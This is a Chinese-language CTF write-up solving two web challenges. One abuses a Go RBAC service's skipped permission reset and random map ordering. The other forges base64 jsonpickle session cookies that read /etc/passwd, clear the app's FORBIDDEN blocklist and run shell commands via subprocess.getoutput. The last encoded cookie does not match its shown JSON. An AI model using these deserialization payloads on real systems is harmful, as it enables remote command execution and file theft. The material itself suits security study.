

# CISCN-rbac

​	首先我们在本地起一个环境，在输出中我们能看到三个接口

````shell
[GIN-debug] [WARNING] Creating an Engine instance with the Logger and Recovery middleware already attached.

[GIN-debug] [WARNING] Running in "debug" mode. Switch to "release" mode in production.
 - using env:   export GIN_MODE=release
 - using code:  gin.SetMode(gin.ReleaseMode)

[GIN-debug] GET    /                         --> main.main.func1 (3 handlers)
[GIN-debug] GET    /getCurrentRBAC           --> main.main.func2 (3 handlers)
[GIN-debug] POST   /execSysFunc              --> main.main.func3 (3 handlers)
[GIN-debug] [WARNING] You trusted all proxies, this is NOT safe. We recommend you to set a value.
Please check https://pkg.go.dev/github.com/gin-gonic/gin#readme-don-t-trust-all-proxies for details.
[GIN-debug] Listening and serving HTTP on :80
````

​	我们主要需要关注的就是下面两个接口：

1. **/getCurrentRBAC**：获取当前角色RBAC状态
2. **/execSysFunc**：根据当前角色RBAC状态执行对应有权限的函数

```go
// 调用execCommand执行具体的系统函数（如getPwd、getDirectory等）
result, err := execCommand(execStruct.FuncName, execStruct.Param)
if err != nil {
	// 若执行失败，构建错误响应
	response = ResTemplate{
		Success: false,
		Data:    map[string]string{"error": err.Error()},
	}
	c.JSON(400, response) // 返回400状态码
} else {
	// 若执行成功，构建成功响应
	response = ResTemplate{
		Success: true,
		Data:    map[string]string{"result": result}, // 携带执行结果
	}
	initRBAC() // 执行完成后重置RBAC权限为初始状态（安全措施，防止权限残留）
	c.JSON(200, response) // 返回200状态码
}
```

​	这里我们需要关注的为`initRBAC()`，它会将RBAC权限重置为初始状态，但是我们可以发现当报错的时候，这时候不会执行`initRBAC()`就会导致RBAC权限残留。

​	默认权限已经权限相关内容如下：

```go
// initRBAC 初始化RBAC权限配置为默认状态
func initRBAC() {
	RBACList = make(map[string]int)
	RBACList["file:read"] = 0          // 文件读取权限
	RBACList["file:return"] = 0        // 返回文件内容权限
	RBACList["flag:read"] = 0          // 标志读取权限
	RBACList["flag:return"] = 0        // 返回标志内容权限
	RBACList["pwd:read"] = 0           // 工作目录读取权限
	RBACList["directory:read"] = 0     // 目录读取权限
	RBACList["directory:return"] = 0   // 返回目录内容权限
	RBACList["rbac:read"] = 1          // 读取RBAC配置权限(始终启用)
	RBACList["rbac:change_read"] = 1   // 修改读取权限的权限(始终启用)
	RBACList["rbac:change_return"] = 0 // 修改返回权限的权限(默认禁用)
}
```

​	我们现在可以通过`change_read`获取flag的read权限，我们可以发送如下请求：

```json	
{
    "File": [
        "read"
    ],
    "Directory": [

    ],
    "Pwd": [

    ],
    "Flag": [
        "read"
    ],
    "Param": "/etc/passwd"
}
```

​	当前权限如下：

```json
{
    "Success": true,
    "Data": {
        "directory:read": 0,
        "directory:return": 0,
        "file:read": 1,
        "file:return": 0,
        "flag:read": 1,
        "flag:return": 0,
        "pwd:read": 0,
        "rbac:change_read": 1,
        "rbac:change_return": 0,
        "rbac:read": 1
    }
}
```

​	此时由于缺少参数，按照程序处理逻辑，跳过了`initRBAC()`不会重置权限，此时我们的目标就是获取到Flag的return权限。

​	为了获取到flag的retuan权限，我们就要卡出`rbac:change_return`为1。

​	在`updateRBAC()`中想要使得`rbac:change_return`为1,那么就要`rbac:change_return:1`，在源代码中

```go
RBACToGrant["rbac:change_return:1"] = 1
RBACToGrant["file:"+value] = 1
RBACToGrant["rbac:change_return:0"] = 1
```

将`rbac:change_return:1`置为1并且将`rbac:change_return:0`也置为1,但是在后续处理中

```go
if strings.HasSuffix(key, ":return") {
	if RBACList["rbac:change_return"] == 1 {
		RBACList[key] = value
	}
} else if key == "rbac:change_return:1" {
	RBACList["rbac:change_return"] = 1
} else if key == "rbac:change_return:0" {
	RBACList["rbac:change_return"] = 0
} else {
	RBACList[key] = value
}
```

​	循环如下(并非固定顺序)

```shell
file:return
rbac:change_return:0
directory:read
file:read
rbac:change_return:1
```

​	这是因为go中map遍历具有随机性，就有可能会出现上面的情况。

​	在最后change_return被赋值为1，此时RBAC状态如下：

```json
{
    "Success": true,
    "Data": {
        "directory:read": 1,
        "directory:return": 0,
        "file:read": 1,
        "file:return": 1,
        "flag:read": 0,
        "flag:return": 0,
        "pwd:read": 0,
        "rbac:change_read": 1,
        "rbac:change_return": 1,
        "rbac:read": 1
    }
}
```

​	我们发送请求如下：

```json
{
    "File": [
    ],
    "Directory": [
    ],
    "Pwd": [
    ],
    "Flag": [
        "read",
        "return"
    ],
    "Param": "/etc/passwd"
}
```

​	此时RBAC状态如下：

```json
{
    "Success": true,
    "Data": {
        "directory:read": 1,
        "directory:return": 0,
        "file:read": 1,
        "file:return": 1,
        "flag:read": 1,
        "flag:return": 1,
        "pwd:read": 0,
        "rbac:change_read": 1,
        "rbac:change_return": 1,
        "rbac:read": 1
    }
}
```

​	此时就可以愉快读flag了😋



# safe_bank

​	题目中描述如下：

```
Python Flask作为Web框架
JSON用于数据交换
使用jsonpickle的高级会话管理
Base64编码用于Token传输
```

​	我们随便注册一个账号拿到cookie如下

```json
eyJweS9vYmplY3QiOiAiX19tYWluX18uU2Vzc2lvbiIsICJtZXRhIjogeyJ1c2VyIjogIjEyMzQiLCAidHMiOiAxNzUzNzkyODQzfX0=

{"py/object": "__main__.Session", "meta": {"user": "1234", "ts": 1753792843}}
```

​	确认方向为jsonpickle反序列化

​	我们修改user的值

```json
{"py/object": "__main__.Session", "meta": {"user": "114514", "ts": 1753792843}}

eyJweS9vYmplY3QiOiAiX19tYWluX18uU2Vzc2lvbiIsICJtZXRhIjogeyJ1c2VyIjogIjExNDUxNCIsICJ0cyI6IDE3NTM3OTI4NDN9fQ==
```

​	此时页面用户名也相应变成了114514，因此我们就可以利用114514回显。

|      **标签**      |        **功能**        |    **使用场景**    |
| :----------------: | :--------------------: | :----------------: |
|    `py/object`     | 标识实例对象的类型路径 |  自定义类实例重建  |
|     `py/type`      |    标识类型对象本身    |    序列化类定义    |
|     `py/state`     |    存储对象属性状态    |   初始化对象属性   |
|    `py/newargs`    |  指定 `__new__` 参数   |   不可变对象创建   |
| `py/ref` & `py/id` | 处理对象引用和唯一标识 |    循环引用优化    |
|    `py/reduce`     |   执行可调用对象重建   | 复杂对象自定义重建 |
|     `py/tuple`     |      保持元组类型      |   区分元组和列表   |
|      `py/set`      |      标识集合类型      | 序列化集合数据结构 |

> Provided by Deepseek

​	在下方源码中我们可以发现`jsonpickle.decode(decoded, safe=True)`，所以`py/reduce`无法使用，我们可以使用`py/object`来制定方法调用。

​	这道题中有很多过滤，多次尝试之后发现`linecache.getliounes()`没有被过滤，我们尝试构建如下payload：

```json
{"py/object":"__main__.Session","meta":{"user":{"py/object":"linecache.getlines","py/newargsex":[{"py/set":["/etc/passwd"]},""]},"ts":1753532149}}
```

​	成功显示`/etc/passwd`文件内容，此时我们实现了任意读，但是由于权限不足，没有办法读取/flag内容。

​	我们读取`/proc/self/cmdline`和`/proc/self/pwd`获得当前工作路径为`/app`，执行命令为`python app.py`，拼接起来获取到源码路径，我们读取源码如下：

```python
from flask import Flask, request, make_response, render_template, redirect, url_for
import jsonpickle
import base64
import json
import os
import time

app = Flask(__name__)
app.secret_key = os.urandom(24)

class Account:
    def __init__(self, uid, pwd):
        self.uid = uid
        self.pwd = pwd

class Session:
    def __init__(self, meta):
        self.meta = meta

users_db = [
    Account("admin", os.urandom(16).hex()),
    Account("guest", "guest")
]

def register_user(username, password):
    for acc in users_db:
        if acc.uid == username:
            return False
    users_db.append(Account(username, password))
    return True

FORBIDDEN = [
    'builtins', 'os', 'system', 'repr', '__class__', 'subprocess', 'popen', 'Popen', 'nt',
    'code', 'reduce', 'compile', 'command', 'pty', 'platform', 'pdb', 'pickle', 'marshal',
    'socket', 'threading', 'multiprocessing', 'signal', 'traceback', 'inspect', '\\\\', 'posix',
    'render_template', 'jsonpickle', 'cgi', 'execfile', 'importlib', 'sys', 'shutil', 'state',
    'import', 'ctypes', 'timeit', 'input', 'open', 'codecs', 'base64', 'jinja2', 're', 'json',
    'file', 'write', 'read', 'globals', 'locals', 'getattr', 'setattr', 'delattr', 'uuid',
    '__import__', '__globals__', '__code__', '__closure__', '__func__', '__self', 'pydoc',
    '__module__', '__dict__', '__mro__', '__subclasses__', '__init__', '__new__'
]

def waf(serialized):
    try:
        data = json.loads(serialized)
        payload = json.dumps(data, ensure_ascii=False)
        for bad in FORBIDDEN:
            if bad in payload:
                return bad
        return None
    except:
        return "error"

@app.route('/')
def root():
    return render_template('index.html')

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        confirm_password = request.form.get('confirm_password')
        
        if not username or not password or not confirm_password:
            return render_template('register.html', error="所有字段都是必填的。")
        
        if password != confirm_password:
            return render_template('register.html', error="密码不匹配。")
        
        if len(username) < 4 or len(password) < 6:
            return render_template('register.html', error="用户名至少需要4个字符，密码至少需要6个字符。")
        
        if register_user(username, password):
            return render_template('index.html', message="注册成功！请登录。")
        else:
            return render_template('register.html', error="用户名已存在。")
    
    return render_template('register.html')

@app.post('/auth')
def auth():
    u = request.form.get("u")
    p = request.form.get("p")
    for acc in users_db:
        if acc.uid == u and acc.pwd == p:
            sess_data = Session({'user': u, 'ts': int(time.time())})
            token_raw = jsonpickle.encode(sess_data)
            b64_token = base64.b64encode(token_raw.encode()).decode()
            resp = make_response("登录成功。")
            resp.set_cookie("authz", b64_token)
            resp.status_code = 302
            resp.headers['Location'] = '/panel'
            return resp
    return render_template('index.html', error="登录失败。用户名或密码无效。")

@app.route('/panel')
def panel():
    token = request.cookies.get("authz")
    if not token:
        return redirect(url_for('root', error="缺少Token。"))
    
    try:
        decoded = base64.b64decode(token.encode()).decode()
    except:
        return render_template('error.html', error="Token格式错误。")
    
    ban = waf(decoded)
    if waf(decoded):
        return render_template('error.html', error=f"请不要黑客攻击！{ban}")
    
    try:
        sess_obj = jsonpickle.decode(decoded, safe=True)
        meta = sess_obj.meta
        
        if meta.get("user") != "admin":
            return render_template('user_panel.html', username=meta.get('user'))
        
        return render_template('admin_panel.html')
    except Exception as e:
        return render_template('error.html', error=f"数据解码失败。")

@app.route('/vault')
def vault():
    token = request.cookies.get("authz")
    if not token:
        return redirect(url_for('root'))
    
    try:
        decoded = base64.b64decode(token.encode()).decode()
        if waf(decoded):
            return render_template('error.html', error="请不要尝试黑客攻击！")
        sess_obj = jsonpickle.decode(decoded, safe=True)
        meta = sess_obj.meta
        
        if meta.get("user") != "admin":
            return render_template('error.html', error="访问被拒绝。只有管理员才能查看此页面。")
        
        flag = "NepCTF{fake_flag_this_is_not_the_real_one}"
        
        return render_template('vault.html', flag=flag)
    except:
        return redirect(url_for('root'))

@app.route('/about')
def about():
    return render_template('about.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000, debug=False)
```

​	我们可以调用制定方法，我们就可以调用`__main__.FORBIDDEN.clear()`直接把屏蔽词扬了

> Provided by Pid

​	Payload如下：

```json
{"py/object": "__main__.Session", "meta": {"user": {"py/object": "__main__.FORBIDDEN.clear", "py/newargs": []}, "ts": 1753451910}}

eyJweS9vYmplY3QiOiAiX19tYWluX18uU2Vzc2lvbiIsICJtZXRhIjogeyJ1c2VyIjogeyJweS9vYmplY3QiOiAiX19tYWluX18uRk9SQklEREVOLmNsZWFyIiwgInB5L25ld2FyZ3MiOiBbXX0sICJ0cyI6IDE3NTM0NTE5MTB9fQ==
```

​	执行之后屏蔽词就没了😋

```json
{"py/object": "__main__.Session", "meta": {"user": {"py/object": "subprocess.getoutput", "py/newargs": ["ls /"]}, "ts": 1753451910}}

eyJweS9vYmplY3QiOiAiX19tYWluX18uU2Vzc2lvbiIsICJtZXRhIjogeyJ1c2VyIjogeyJweS9vYmplY3QiOiAic3VicHJvY2Vzcy5nZXRvdXRwdXQiLCAicHkvbmV3YXJncyI6IFsibHMgLyJdfSwgInRzIjogMTc1MzQ1MTkxMH19
```

```shell
用户名:
app bin boot dev entrypoint.sh etc flag home lib lib64 media mnt opt proc readflag root run sbin srv sys tmp usr var
```

​	执行`/readflag`即可获得flag

```json
{"py/object": "__main__.Session", "meta": {"user": {"py/object": "subprocess.getoutput", "py/newargs": ["/readflag"]}, "ts": 1753451910}}

eyJweS9vYmplY3QiOiAiX19tYWluX18uU2Vzc2lvbiIsICJtZXRhIjogeyJ1c2VyIjogeyJweS9vYmplY3QiOiAic3VicHJvY2Vzcy5nZXRvdXRwdXQiLCAicHkvbmV3YXJncyI6IFsibHMgLyJdfSwgInRzIjogMTc1MzQ1MTkxMH19
```

```shell
用户名:
NepCTF{d08fb277-1a51-fd9d-39aa-98cad01a05d7}
```
